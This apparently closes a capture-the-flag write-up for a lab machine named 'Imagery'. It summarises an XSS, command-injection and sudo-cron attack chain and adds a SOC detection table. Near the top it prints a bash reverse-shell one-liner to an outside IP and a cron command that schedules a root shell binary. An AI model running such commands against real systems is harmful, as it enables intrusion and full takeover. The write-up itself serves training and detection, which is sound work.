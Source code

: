 Okay compiled C code and added it to run as cron job. Lets see what happens
Maybe we need to copy the file from /usr/bin

Lets start another nc listeneer
`sh -i >& /dev/tcp/10.10.14.11/8188 0>&1`
  
```bash
auto add --schedule "* * * * *" --command "/tmp/varRootShell" --name "varRootShell"  --log-output /tmp/r1.log
```
  
I've figured out why the rootshell was not working . It is because there maybe nosuid=1 on /tmp which doesnt allow executing suid bits on /tmp

This confirms why the suid was not working on /tmp folder
```bash
root@Imagery:/root# mount | grep "/tmp"
tmpfs on /tmp type tmpfs (rw,nosuid,nodev,size=1979616k,nr_inodes=1048576,inode64)
```
    

# What Actually Happened
- The attacker started with **reconnaissance** — using tools like `nmap` and `ffuf` to find **which ports** and **web endpoints** were open.  Think of this as shaking the building doors to see which one’s unlocked.
    
- They found a **Flask‑based web app** where users could report bugs and upload images. Hidden in that code was a small input sanitization issue that allowed the attacker to run **XSS (cross‑site scripting)**, which made the admin’s browser send back its **authentication cookie**.
    
- Once they had the admin cookie, they were inside the management zone of the app.  From there, they found a **server‑side weakness** in one API endpoint (`applyvisualtransform`) that used `subprocess.run(..., shell=True)`.  
  
- This allowed them to inject a **reverse shell** . Basically making the server open a secret connection back to the attacker’s machine.
    
- After entering as the `web` user, they found a binary (`charcol`) that was allowed to run as **root** without a password (`sudo NOPASSWD`).  
  
- By creating a fake cron job through this tool, they escalated privilege to **root**, gaining full system control.

# SOC Detection In Simple Technical Terms

| Attack Step                | What It Looks Like to a SOC                                                                                                             |
| -------------------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| **Recon** (`nmap`, `ffuf`) | Unusual spikes in port scans, 405/401 HTTP codes, repetitive requests from one IP                                                       |
| **XSS Attack**             | Outbound traffic to attacker IPs carrying cookies or encoded strings (`document.cookie`)                                                |
| **Command Injection**      | Web server (`python` or `gunicorn`) spawning unexpected child processes (bash, nc)                                                      |
| **Reverse Shell**          | Network connection from internal host to an unknown external IP                                                                         |
| **Privilege Escalation**   | Execution of `/usr/local/bin/charcol` or other binaries via sudo without prior authentication and creation of cron jobs in user context |
| **Persistence**            | Repeated execution of custom cron or backup processes with altered arguments                                                            |
